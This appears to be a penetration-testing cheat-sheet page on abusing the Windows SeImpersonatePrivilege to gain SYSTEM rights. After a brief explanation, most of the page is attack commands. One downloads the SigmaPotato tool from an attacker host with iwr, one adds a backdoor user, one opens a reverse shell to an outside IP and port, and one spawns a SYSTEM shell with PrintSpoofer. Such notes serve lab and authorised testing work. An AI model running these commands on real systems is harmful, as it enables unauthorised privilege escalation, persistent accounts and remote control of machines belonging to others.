 # SeImpersonatePrivilege

Non-privileged users with assigned privileges, such as _SeImpersonatePrivilege_, can potentially abuse those privileges to perform privilege escalation attacks. _SeImpersonatePrivilege_ offers the possibility to leverage a token with another security context.

By default, Windows assigns this privilege to members of:

* local _Administrators_ group&#x20;
* _LOCAL SERVICE_, _NETWORK SERVICE_, and _SERVICE_ accounts.

Check privileges:&#x20;

```powershell
whoami /priv
```

* <mark style="color:red;">`SeImpersonatePrivilege - Impersonate a client after authentication - Enabled`</mark>&#x20;

Download Sigma Potato on windows machine:

{% embed url="https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe" %}

{% code overflow="wrap" %}
```powershell
iwr -uri http://192.168.48.3/SigmaPotato.exe -OutFile SigmaPotato.exe
```
{% endcode %}



Use Sigma Potato to add a new user:

```powershell
.\SigmaPotato "net user dave4 lab /add"
```

{% embed url="https://jlajara.gitlab.io/Potatoes_Windows_Privesc" %}

Use Sigma Potato to get a rev shell:

```powershell
.\SigmaPotato.exe --revshell 10.128.16.60 1233
```

Upgrade shell:

```powershell
.\SigmaPotato.exe -i
```



Printspoofer:

If you have an **interactive** shell, you can create a new SYSTEM process in your current console.

```
PrintSpoofer.exe -i -c cmd
```
